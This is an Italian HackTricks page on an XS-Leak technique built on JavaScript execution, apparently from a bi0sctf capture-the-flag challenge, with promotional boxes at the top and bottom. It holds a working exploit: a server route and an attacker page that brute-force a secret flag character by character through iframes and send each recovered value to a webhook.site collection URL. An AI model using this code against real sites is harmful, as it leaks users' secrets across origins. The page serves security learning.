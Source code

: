 # Esecuzione di JavaScript XS Leak

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Lavori in una **azienda di sicurezza informatica**? Vuoi vedere la tua **azienda pubblicizzata in HackTricks**? O vuoi avere accesso all'**ultima versione di PEASS o scaricare HackTricks in PDF**? Controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* **Unisciti al** [**💬**](https://emojipedia.org/speech-balloon/) [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguimi** su **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR al** [**repo hacktricks**](https://github.com/carlospolop/hacktricks) **e al** [**repo hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
```javascript
// Code that will try ${guess} as flag (need rest of the server code
app.get('/guessing', function(req, res) {
let guess = req.query.guess
let page = `<html>
<head>
<script>
function foo() {
// If not the flag this will be executed
window.parent.foo()
}
</script>
<script src="https://axol.space/search?query=${guess}&hint=foo()"></script>
</head>
<p>hello2</p>
</html>`
res.send(page)
});
```
Pagina principale che genera iframes alla pagina precedente `/guessing` per testare ogni possibilità
```html
<html>
<head>
<script>
let candidateIsGood = false;
let candidate = ''
let flag = 'bi0sctf{'
let guessIndex = -1

let flagChars = '_0123456789abcdefghijklmnopqrstuvwxyz}ABCDEFGHIJKLMNOPQRSTUVWXYZ'

// this will get called from our iframe IF the candidate is WRONG
function foo() {
candidateIsGood = false
}

timerId = setInterval(() => {
if (candidateIsGood) {
flag = candidate
guessIndex = -1
fetch('https://webhook.site/<yours-goes-here>?flag='+flag)
}

//Start with true and will be change to false if wrong
candidateIsGood = true
guessIndex++
if (guessIndex >= flagChars.length) {
fetch('https://webhook.site/<yours-goes-here>')
return
}
let guess = flagChars[guessIndex]
candidate = flag + guess
let iframe = `<iframe src="/guessing?guess=${encodeURIComponent(candidate)}"></iframe>`
console.log('iframe: ', iframe)
hack.innerHTML = iframe
}
, 500);
</script>
</head>
<p>hello</p>
<div id="hack">
</div>
</html>
```
<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Lavori in un'**azienda di sicurezza informatica**? Vuoi vedere la tua **azienda pubblicizzata in HackTricks**? o vuoi avere accesso all'**ultima versione di PEASS o scaricare HackTricks in PDF**? Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* **Unisciti al** [**💬**](https://emojipedia.org/speech-balloon/) [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguimi** su **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR al** [**repo hacktricks**](https://github.com/carlospolop/hacktricks) **e al** [**repo hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
